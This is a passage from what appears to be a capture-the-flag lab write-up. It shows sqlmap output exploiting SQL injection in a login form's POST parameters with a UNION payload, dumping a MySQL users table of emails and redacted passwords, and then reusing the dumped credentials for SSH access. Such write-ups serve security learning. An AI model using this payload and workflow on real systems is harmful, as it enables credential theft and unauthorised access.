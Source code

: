 ```bash
    Title: Generic UNION query (NULL) - 4 columns
    Payload: username=''&password=''' UNION ALL SELECT NULL,CONCAT(0x7176707171,0x735a775a62766d67615942797359447a49794e636865467a65457243784f4e56494a6a6756624772,0x71626a6271),NULL,NULL-- -
---
there were multiple injection points, please select the one to use for following injections:
[0] place: POST, parameter: username, type: Single quoted string (default)
[1] place: POST, parameter: password, type: Single quoted string
[q] Quit
> 0
[13:13:17] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[13:13:18] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[13:13:18] [INFO] fetching current database
[13:13:18] [INFO] fetching tables for database: 'website'
[13:13:18] [INFO] fetching columns for table 'users' in database 'website'
[13:13:18] [INFO] fetching entries for table 'users' in database 'website'
Database: website
Table: users
[2 entries]
+----+-------------------+-----------------+----------+
| id | email             | password        | username |
+----+-------------------+-----------------+----------+
| 1  | smokey@email.boop | [RETACTED]      | smokey   |
| 2  | admin@site.com    | [RETACTED]      | admin    |
+----+-------------------+-----------------+----------+

[13:13:18] [INFO] table 'website.users' dumped to CSV file '/home/juba/.local/share/sqlmap/output/10.10.213.115/dump/website/users.csv'
[13:13:18] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 48 times
[13:13:18] [INFO] fetched data logged to text files under '/home/juba/.local/share/sqlmap/output/10.10.213.115'

[*] ending @ 13:13:18 /2022-09-22/
```

# Gaining Access

- now we have two valid credentials, I tried to log in with ssh “smokey” credentials are valid but “admin” is not

